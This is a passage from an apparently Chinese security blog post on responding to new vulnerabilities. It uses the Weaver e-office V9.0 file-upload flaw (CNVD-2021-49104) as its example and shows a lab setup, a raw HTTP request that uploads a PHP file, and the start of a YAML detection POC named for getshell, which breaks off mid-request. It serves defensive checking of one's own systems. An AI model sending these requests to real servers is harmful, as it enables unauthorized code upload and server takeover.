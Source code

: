 ### 0day应急

不管是甲方还是乙方，一旦暴出新漏洞，应急显得非常重要。
大部分人都是直接写poc批量检测内部应用，当然我也不例外。

举个例子：
泛微e-office 文件上传漏洞风险通告（CNVD-2021-49104）

##### 部署靶场环境

影响版本
泛微e-office V9.0
首先虚拟机安装下。
![image.png](https://image.3001.net/images/20211215/1639539097_61b96199d9efd03c60000.png!small)
安装完成后，默认账号admin,密码为空。

##### POC构造

> Burpsuite原始包文

```
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 10.211.55.11:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.211.55.11:8080/login.php
Cookie: LOGIN_LANG=cn; PHPSESSID=c57f0b37a12cf9dd61e35b909289d1b9
Pragma: no-cache
Cache-Control: no-cache
Content-Type: multipart/form-data;boundary=e64bdf16c554bbc109cecef6451c26a4
Content-Length: 191

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test1.php"
Content-Type: image/jpeg

123

--e64bdf16c554bbc109cecef6451c26a4--
```

访问上传的文件是否生效
![image.png](https://image.3001.net/images/20211215/1639539147_61b961cb6eed39026e2c1.png!small)

> 编写poc

```
name: poc-yaml-e-office-v9-upload-getshell
manual: true
transport: http
set:
    r1: randomLowercase(8)
rules:
    r1:
        request:
            cache: true
            method: POST
            path: /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId=
            headers:
                Content-Type: multipart/form-data;boundary=e64bdf16c554bbc109cecef6451c26a4
            body: |-
                --e64bdf16c554bbc109cecef6451c26a4
                Content-Disposition: form-data; name="Filedata"; filename="{{r1}}.php"
```